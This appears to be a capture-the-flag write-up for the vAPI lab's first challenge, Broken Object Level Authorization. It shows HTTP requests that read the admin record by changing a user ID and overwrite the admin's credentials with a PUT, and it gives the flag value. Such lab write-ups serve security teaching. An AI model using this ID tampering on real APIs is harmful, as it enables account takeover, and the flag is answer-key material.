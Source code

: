 
## API 1 [Broken Object Level Authorization]
> You can register yourself as a User , Thats it ....or is there something more?

Let's create a dummy account:

```json
Request => "POST http://{{host}}/vapi/api1/user"
{
    "username": "testuser",
    "name": "testname",
    "course": "testcourse",
    "password": "testpass"
}

Response =>
{
    "username": "testuser",
    "name": "testname",
    "course": "testcourse",
    "id": 30
}
```

Our user's ID is `30`. 
Let's retrieve our user's details:

```json
Request => "GET http://{{host}}/vapi/api1/user/30"

Response =>
{
    "id": 30,
    "username": "testuser",
    "name": "testname",
    "course": "testcourse"
}
```

Simillarly, we can check the admin user account's details by changing the user ID to `1`.
We have flag 1: `flag{api1_d0cd9be2324cc237235b}`

![[flag1.png]]

Simillarly, we can also update other user's details. Let's change the account details of the admin account. 

```json
Request => "PUT http://{{host}}/vapi/api1/user/1"
{
    "username":"pwned",
    "name":"pwned",
    "password":"pwned"
}
```
